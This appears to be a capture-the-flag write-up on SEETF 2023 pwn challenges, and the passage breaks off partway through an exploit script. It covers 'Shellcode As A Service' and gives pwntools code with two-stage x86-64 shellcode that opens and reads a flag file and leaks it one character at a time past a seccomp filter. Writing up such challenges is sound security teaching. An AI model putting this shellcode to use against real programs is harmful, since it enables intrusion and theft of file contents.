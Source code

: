```yaml
---
title: SEETF 2023 Pwn Writeups
date: 2023-06-12T05:59:12Z
draft: false
description: brief writeup on pwn challenges from seetf 2023
tocOpen: true
---
```


# SEETF Brief Writeup on Pwns

## Shellcode As A Service

As indicated by the challenge name and description, we have to write shellcode that will be executed by the program.

We are given an initial write of 6 bytes long, which allows us to get a second stage write. There is **open, read** seccomp, preventing us from printing flag.

We can write a loop in assembly to read one character at a time, and terminate if the character is incorrect.

```python
from pwn import *


context.terminal = ["tmux", "neww"]
context.binary = ELF("./chall")

# first stage
sc1 = asm("""
mov esi, edx
xor edi, edi
syscall
""")

# second stage
sc2 = b"\x90" * len(sc1) + asm("""
mov rbx, 0x67616c662f
push rbx
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, 0x2
syscall

mov rdi, rax
mov rsi, 0x1337500
mov rdx, 0x100
mov rax, 0
syscall

xor r8, r8
jmp loop2

loop:
inc r8

loop2:
mov rax, 0
mov rdi, 0
mov rsi, 0x1337900
add rsi, r8
```